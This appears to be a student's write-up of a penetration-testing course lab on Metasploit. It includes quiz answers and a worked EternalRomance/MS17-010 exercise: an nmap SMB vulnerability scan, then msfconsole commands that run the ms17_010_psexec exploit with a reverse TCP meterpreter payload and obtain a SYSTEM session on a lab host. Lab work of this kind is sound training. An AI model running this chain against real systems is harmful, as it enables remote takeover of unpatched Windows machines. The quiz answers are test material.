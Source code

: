 Now that we know all of these locations, it will be easy for us to reference them in the future when we decide to import new modules or even create new ones from scratch.

#### Questions

Answer the question(s) below to complete this Section and earn cubes!


+  Which version of Metasploit comes equipped with a GUI interface?
> Metasploit Pro


+ What command do you use to interact with the free version of Metasploit?

> msfconsole

# Modules
#### Questions

+ Use the Metasploit-Framework to exploit the target with EternalRomance. Find the flag.txt file on Administrator's desktop and submit the contents as the answer.

```zsh
❯ sudo nmap --script smb-vuln* -p 139,445 10.129.139.197
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-21 09:08 EDT
Nmap scan report for 10.129.139.197
Host is up (0.27s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)

```

```zsh
msf6 > search type:exploit platform:windows ms17-010
msf6 > use 10
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > 
msf6 exploit(windows/smb/ms17_010_psexec) > setg rhosts 10.129.139.197
rhosts => 10.129.139.197
msf6 exploit(windows/smb/ms17_010_psexec) > setg lhost tun0
lhost => tun0
msf6 exploit(windows/smb/ms17_010_psexec) > run
[*] Started reverse TCP handler on 10.10.14.174:4444 
[*] 10.129.139.197:445 - Target OS: Windows Server 2016 Standard 14393
[*] 10.129.139.197:445 - Built a write-what-where primitive...
[+] 10.129.139.197:445 - Overwrite complete... SYSTEM session obtained!
```